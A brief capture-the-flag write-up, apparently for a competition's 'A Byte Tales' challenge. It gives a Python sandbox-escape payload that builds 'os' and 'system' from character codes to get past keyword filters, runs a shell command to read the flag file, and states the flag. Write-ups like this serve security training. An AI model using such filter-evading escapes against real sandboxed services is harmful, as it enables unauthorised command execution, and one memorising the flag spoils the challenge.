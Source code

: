 ```yaml
---
description: >-
  Here are the write-ups for miscellaneous challenges that I solved during the
  competition
icon: globe-pointer
---
```


# Miscellaneous

## A Byte Tales

### Solution

<figure><img src="../.gitbook/assets/abytetales-exploited.png" alt=""><figcaption></figcaption></figure>

It's a basic pyjail escape. Here's the payload

```python
__builtins__.__dict__['__IMPORT__'.lower()](''.join([chr(111), chr(115)])).__dict__[''.join([chr(115), chr(121), chr(115), chr(116), chr(101), chr(109)])]('cat flag.txt')
```

Flag: SIBER25{St1ck\_70\_7h3\_5toryl1n3!}
